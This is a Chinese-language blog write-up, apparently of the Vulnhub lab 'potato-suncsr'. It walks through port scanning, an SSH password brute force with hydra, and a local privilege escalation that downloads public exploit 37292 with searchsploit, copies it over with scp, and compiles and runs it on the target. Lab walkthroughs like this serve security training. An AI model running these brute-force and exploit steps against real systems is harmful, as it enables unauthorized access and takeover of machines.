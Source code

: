 ```yaml
---
layout: post
title: potato-suncsr
subtitle: potato-suncsr
date: 2023-07-12 10:24
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```


## 1. 信息搜集

扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/NvGNLM.png)

扫描端口

![image.png](https://img.ghostliner.top/SUmsGq.png)

访问 80 端口，未发现有效信息，目录扫描发现 `/info.php`

`whatweb` 未发现信息

## 2. SSH 爆破

```shell
hydra -l potato -P 字典2/字典.txt -vV ssh://192.168.163.133:7120
```

![image.png](https://img.ghostliner.top/Q688l8.png)

```shell
ssh -p 7120 potato@192.168.163.133
```

## 3. 提权

进入目标机后，尝试 sudo, find 提权失败，查看系统信息

```shell
cat /etc/issue
uname -a
```

![image.png](https://img.ghostliner.top/N5KzN9.png)

搜索相关漏洞

```shell
searchsploit ubuntu 14.04
```

![image.png](https://img.ghostliner.top/7OioDi.png)

```shell
# 复制文件
searchsploit -m 37292
# 传输到目标机
scp -P 7120 37292.c potato@192.168.163.133:~
```

在目标机上编译并执行

```shell
gcc 37292.c
./a.out
```

![image.png](https://img.ghostliner.top/BNYY9H.png)

找到 flag
![image.png](https://img.ghostliner.top/vmiV9f.png)
